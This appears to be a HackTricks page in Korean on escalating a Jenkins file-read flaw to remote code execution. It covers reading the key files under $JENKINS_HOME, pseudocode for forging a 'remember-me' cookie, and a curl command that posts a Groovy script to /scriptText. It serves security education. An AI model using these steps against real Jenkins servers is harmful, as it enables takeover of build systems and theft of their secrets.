 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 악용하여 RCE를 얻는 방법에 대한 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지 사용됩니다:

### Attack Prerequisites

- **Feature Requirement:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
- **Access Levels:** 공격자는 Overall/Read 권한이 필요합니다.
- **Secret Access:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 액세스하여 수집합니다:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- 쿠키 서명에 사용되는 암호화 키를 추출합니다:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **토큰 만료 시간 계산:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 현재 시간에 1시간 추가
```

- **토큰을 위한 데이터 연결:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **MAC 키 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey) // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac) // MAC을 16진수 문자열로 변환
```

**Cookie Encoding**

- **최종 쿠키 생성:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // 쿠키 데이터를 Base64로 인코딩
```

#### Step 3: Code Execution

**Session Authentication**

- **CSRF 및 세션 토큰 가져오기:**
- `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
- 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**Command Execution Request**

- **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키로 Jenkins에 요청하는 방법을 보여줍니다.

{{#include ../../banners/hacktricks-training.md}}
